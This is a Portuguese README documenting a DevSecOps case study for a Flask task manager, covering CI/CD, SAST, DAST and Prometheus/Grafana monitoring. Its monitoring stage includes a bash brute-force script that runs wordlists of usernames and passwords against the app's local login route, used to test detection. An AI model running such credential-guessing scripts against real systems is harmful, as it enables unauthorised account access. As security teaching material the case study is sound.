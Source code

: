 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />
   
2. Construir o Diagrama para entender o dominio do problema:

![DFD](https://github.com/gustavogss/task-manager/blob/main/images/dfd.png)
<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

***Branchs***: 
- master: produção
- development: desenvolvimento
- staging: homologação


***Ferramentas Utilizadas***: 
- Visual Studio Code
- Gitlab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra 
- Prometheus
- Grafana
  
<br />

1. Implementação do Dockerfile

![dockerfile](https://github.com/gustavogss/task-manager/blob/main/images/dockerfile.png)

<br />


2. Aplicação executada na porta 5000:

![app](https://github.com/gustavogss/task-manager/blob/main/images/app.png)

<hr>


### ETAPA3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline

![gitlab](https://github.com/gustavogss/task-manager/blob/main/images/gitlabci.png)

<br />

2. Pipeline em execução no gitlab:

![pipeline-inital](https://github.com/gustavogss/task-manager/blob/main/images/pipeline-initial.png)

<hr>


### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:

![bandit](https://github.com/gustavogss/task-manager/blob/main/images/bandit.png)

<br />

2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artfect_bandit](https://github.com/gustavomob/devsecops-taskmanager/blob/main/images/artefact-zap-attack-tools.png)

<br />

3. Correção no código da falha capturada pelo Bandit:

![fix_bandit](https://github.com/gustavogss/task-manager/blob/main/images/fixenv.png)

<br />
   
4. Implementação do OWASP Dependency Check na pipeline:

![owasp_dependency_check](https://github.com/gustavogss/task-manager/blob/main/images/owasp-dependecy-check.png)

<br />

5. Artefato gerado com vulnerabilidades no código javascript:

![artfect_dependency](https://github.com/gustavogss/task-manager/blob/main/images/artifect-dependency-check.png)
<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA  (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

 ![zed](https://github.com/gustavogss/task-manager/blob/main/images/zap-attack-tools.png)
 
  <br />
  
2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:

![artefact_zed](https://github.com/gustavogss/task-manager/blob/main/images/artefact-zap-attack-tools.png)
<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa revisão de código na pipeline:

![review](https://github.com/gustavogss/task-manager/blob/main/images/review-pipeline.png)

<br />
   
2. Implementação do OWASP ZAP para executar em toda pipeline na homologação: 

![owasp_zap](https://github.com/gustavogss/task-manager/blob/main/images/dast.png)

<hr>


### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:

![prometehues_grafana](https://github.com/gustavogss/task-manager/blob/main/images/grafana-prometheus.png)

<br />
   
2. Implementação do ataque de bruta force em python:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/gustavogss/task-manager/blob/main/images/monitory.png)
<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:

![pipeline_full](https://github.com/gustavogss/task-manager/blob/main/images/pipeline-finished.png)

<br />
